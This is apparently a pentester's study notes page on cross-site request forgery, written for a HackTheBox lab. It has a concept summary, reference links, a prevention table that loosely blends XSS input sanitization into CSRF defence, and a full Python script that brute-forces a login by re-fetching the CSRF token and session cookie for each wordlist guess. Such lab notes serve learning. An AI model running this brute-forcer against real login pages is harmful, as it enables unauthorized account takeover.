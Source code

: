 ```yaml
---
tags:
  - Enumeration
  - TCP
  - HTTP
  - Concepts
  - Vulnerabilities
---
```


A Cross-Site Request Forgery (XSRF) is also known as “one-click attack” and “session riding”. The idea is that an attacker can craft a URL such that when a target visits it, some actions or commands are taken that the user may not have wanted to take. For a site that’s vulnerable to XSRF, this can be a nasty attack, since the attacker can control the text of the link they send the target, making it not too hard to trick people into clicking on links.

`CSRF` attacks may utilize [[Cross Site Scripting (XSS)]] vulnerabilities to perform certain queries, and `API` calls on a web application that the victim is currently authenticated to. This would allow the attacker to perform actions as the authenticated user. It may also utilize other vulnerabilities to perform the same functions, like utilizing HTTP parameters for attacks.

# Guide 

[Cross-Site Request Forgery Prevention - OWASP Cheat Sheet Series](https://cheatsheetseries.owasp.org/cheatsheets/Cross-Site_Request_Forgery_Prevention_Cheat_Sheet.html)
# Walkthrough

[HTB: SecNotes | 0xdf hacks stuff](https://0xdf.gitlab.io/2019/01/19/htb-secnotes.html)

## Prevention

Though there should be measures on the back end to detect and filter user input, it is also always important to filter and sanitize user input on the front end before it reaches the back end, and especially if this code may be displayed directly on the client-side without communicating with the back end. Two main controls must be applied when accepting user input:

|Type|Description|
|---|---|
|`Sanitization`|Removing special characters and non-standard characters from user input before displaying it or storing it.|
|`Validation`|Ensuring that submitted user input matches the expected format (i.e., submitted email matched email format)|

# Bypass

1. [[Burp]] can be used to bypass CRSF
2. Manual script:

```
#!/usr/bin/env python3

import re
import requests
import sys
from multiprocessing import Pool


MAX_PROC = 50
url = "http://monitor.bart.htb/"
username = "harvey"

#<input type="hidden" name="csrf" value="aab59572a210c4ee1f19ab55555a5d829e78b8efdbecd4b2f68bd485d82f0a57" />
csrf_pattern = re.compile('name="csrf" value="(\w+)" /')

def usage():
    print("{} [wordlist]".format(sys.argv[0]))
    print("  wordlist should be one word per line]")
    sys.exit(1)

def check_password(password):

    # get csrf token and PHPSESSID
    r = requests.get(url)
    csrf = re.search(csrf_pattern, r.text).group(1)
    PHPSESSID = [x.split('=')[1] for x in r.headers['Set-Cookie'].split(';') if x.split('=')[0] == 'PHPSESSID'][0]

    # try login:
    data = {"csrf": csrf,
            "user_name": username,
            "user_password": password,
            "action": "login"}
    proxies = {'http': 'http://127.0.0.1:8080'}
    headers = {'Cookie': "PHPSESSID={}".format(PHPSESSID)}
    r = requests.post(url, data=data, proxies=proxies, headers=headers)

    if '<p>The information is incorrect.</p>' in r.text:
        return password, False
    else:
        return password, True


def main(wordlist, nprocs=MAX_PROC):
    with open(wordlist, 'r', encoding='latin-1') as f:
       words = f.read().rstrip().replace('\r','').split('\n')

    words = [x.lower() for x in words] + [x.capitalize() for x in words] + words + [x.upper() for x in words]

    pool = Pool(processes=nprocs)

    i = 0
    print_status(0, len(words))
    for password, status in pool.imap_unordered(check_password, [pass_ for pass_ in words]):
        if status:
            sys.stdout.write("\n[+] Found password: {} \n".format(password))
            pool.terminate()
            sys.exit(0)
        else:
            i += 1
            print_status(i, len(words))

    print("\n\nPassword not found\n")

def print_status(i, l, max=30):
    sys.stdout.write("\r|{}>{}|  {:>15}/{}".format( "=" * ((i*max)//l), " " * (max - ((i*max)//l)), i, l))

if __name__ == '__main__':
    if len(sys.argv) != 2:
        usage()
    main(sys.argv[1])

```
